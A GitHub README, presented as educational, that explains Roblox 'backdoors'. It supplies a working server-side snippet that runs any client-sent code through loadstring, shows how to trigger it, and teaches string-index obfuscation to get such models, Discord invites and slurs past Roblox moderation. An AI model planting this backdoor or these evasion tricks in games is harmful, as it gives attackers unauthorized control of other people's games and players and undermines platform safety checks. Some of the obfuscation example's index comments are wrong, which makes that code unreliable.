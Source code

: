 # Roblox Backdoors

> **NOTE FOR GITHUB:** This README is **SOLELY** for Educational and Entertainment Purposes only. Whatever people do with this is **NOT** my responsibility.
>
> SPDX-License-Identifier: MIT — see [LICENSE](https://github.com/snowylovesu/backdooring/blob/main/LICENSE).

## What is a Backdoor?
A **backdoor** is a malicious script, often hidden inside free models or assets, that gives an attacker unauthorized, server‑side control of your game. It can allow them to run code, access sensitive data, or interfere with players without your permission.

## Example

```lua
local server = Instance.new("RemoteEvent", game.ReplicatedStorage)
server.OnServerEvent:Connect(function(player, SS)
    loadstring(SS)()
end)
```

To use this, you **must** call `:FireServer` on the `RemoteEvent` you created above and pass your code as an argument, as shown below.

```lua
local server = game:GetService("ReplicatedStorage"):WaitForChild("RemoteEvent")

server:FireServer([[
local hint = Instance.new("Hint")
hint.Text = "This is a hint"
hint.Parent = game.Workspace
]])
```

## Obfuscation

If you were to *try* upload a model with a Backdoor in it, Roblox **will** detect it. Roblox has started to up their moderation in 2025, and 2026 might be a bad year for exploits & serversides. This is where Obfuscation comes in. Simple obfuscation, such as shortening variables, minifying your code or encoding strings to [_decimal byte values_](https://en.wikipedia.org/wiki/Byte), that **will not work**. Obfuscation is used to **Bypass Roblox Security**, but for what?

If your code or visuals contain a **racist slur** or a Discord invite, Roblox may send a message to your account. The message will typically remind you that such content is not allowed and that you must follow the Community Guidelines. This is why obfuscation is needed, you can bypass an invite, say my Discord server invite was `discord.gg/roblox`, I would obfuscate it. Here is a small example of how that would look as an obfuscation tactic in a string.

```lua
local junk = "asdfghjklqwertyuiopzxcvbnm/"

local target = ""
target = target .. junk:sub(4,4)   -- "d"
target = target .. junk:sub(9,9)   -- "i"
target = target .. junk:sub(19,19) -- "s"
target = target .. junk:sub(3,3)   -- "c"
target = target .. junk:sub(15,15) -- "o"
target = target .. junk:sub(18,18) -- "r"
target = target .. junk:sub(5,5)   -- "d"
target = target .. junk:sub(27,27) -- "."
target = target .. junk:sub(7,7)   -- "g"
target = target .. junk:sub(7,7)   -- "g"
target = target .. junk:sub(28,28) -- "/"
target = target .. junk:sub(12,12) -- "r"
target = target .. junk:sub(15,15) -- "o"
target = target .. junk:sub(2,2)   -- "b"
target = target .. junk:sub(11,11) -- "l"
target = target .. junk:sub(15,15) -- "o"
target = target .. junk:sub(24,24) -- "x"

print(target)
```

This is called [_String Indexing_](https://en.wikipedia.org/wiki/Substring_index), and is a common move for obfuscating strings. I will show you a more _obfuscated_ version.

```lua
--[[ l: q_1/5 ]] local a="jklqopasdfmvhbnrtywzecxui/"local b="bnmzqklawxvyeopsftrhduicj/"local c="jklqopasdfmvhbnrtywzecxui/"local d="bnmzqklawxvyeopsftrhduicj/"local e="qwertopmlkjzasdfghbncyuvx/"local f="vbnmasdfqwekjlzcxyrtuoph/"local g="ytrbnmasdfopqwejklzcvhux/"local h="lkjzxcvbnmasdfqweopuyrth/"local i="asdfghjklqwertyuiopzmnxbc/"local j="oplkjhgfdsamnbvcqwertyzu/"local k="mnbvcxzlkjhgfdsapoiuytre/"local l="zxcvbnmasdfghjklqwertyop/"local m="poiuytrewqlkjhgfdsamnbvc/"local n="lkjhgfdsamnbvcxqwertyuiop/"local o="asdfqwerzxcvtyuiohjklmnvb/"local p=""p=p..e:sub(9,9)p=p..l:sub(14,14)p=p..c:sub(19,19)p=p..h:sub(3,3)p=p..f:sub(15,15)p=p..j:sub(18,18)p=p..b:sub(5,5)p=p..o:sub(27,27)p=p..g:sub(7,7)p=p..k:sub(7,7)p=p..a:sub(28,28)p=p..d:sub(12,12)p=p..m:sub(15,15)p=p..i:sub(2,2)p=p..n:sub(11,11)p=p..f:sub(15,15)p=p..l:sub(24,24)print(p)
```

As you can most likely see, this is hard to understand. All of this _just_ to print "`discord.gg/roblox`"

## Conclusion
All that code above is only to output a simple Discord invite. The technique may seem complicated at first, but once you understand **string indexing** and **substrings**, it becomes much simpler.

Roblox is increasing moderation efforts, and techniques like this are sometimes used to bypass overly simplistic detections, so understanding string obfuscation is a useful skill.

Thank you for reading!

If you are interested in creating Modules and learning more advanced scripting techniques, those documentations will be coming out very soon.

Documentation made by `snxwynights.` on Discord and `snowylovesu` on GitHub.
